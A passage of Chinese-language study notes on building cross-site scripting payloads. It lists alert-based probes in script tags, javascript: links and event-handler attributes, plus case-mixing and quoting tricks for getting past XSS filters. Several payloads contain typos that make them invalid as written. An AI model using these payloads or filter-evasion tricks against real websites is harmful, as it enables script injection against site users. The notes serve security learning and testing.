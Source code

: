 #### xss构造

1. 利用<>构造HTML标签和JS<script>标签

    提交<script>alert(/xss/)</script>，触发xss攻击

2. 使用JavaScript以为协议方式构造xss

    javascript:alert(/xss/)

    <a href="javascript:alert(/xss/)">touch me!</a>

3. 产生的事件

    网页中会发生很多事件，JS可以对这些事件进行响应，可以通过事件触发JS函数，触发XSS

    1. windows事件，对windows对象触发的事件

    2. form事件，HTML表单的动作触发事件

    3. keyboard事件，键盘按键

    4. mouse事件，鼠标或类似用户动作触发的事件

    5. meida事件，由多媒体触发的事件

        鼠标悬停图片触发XSS：<img src='./smile.jpg' onmouseover='alert(/xss/)'>

        点击键盘任意按键触发XSS：<input type="text" onkeydown="alert(/xss/)">

        <input type="text" onkeyup="alert(/xss/)">

        <input type="button" onclick="alert(/xss/)">

    6. 其他标签和手法

        [ <svg onload="alert"(/xss/)"> ]

        [ <input onfocus=alert(/xss/) autofucus>]

        

#### XSS的变形

通过构造xss代码进行各种变形，以绕过xss过滤器的检测

1. 大小写转换，将payload进行大小写转化，如：

    <Img sRc='#' Onerror="alert(/xss/)" />

    [ <a hERf="javaScript:alert(/xss/)">click me</a> ]

2. 引号的使用，HTML对引号的使用不敏感，但是某些过滤函数比较严格

    <img src="#" onerror="alert(/xss/)"/>

    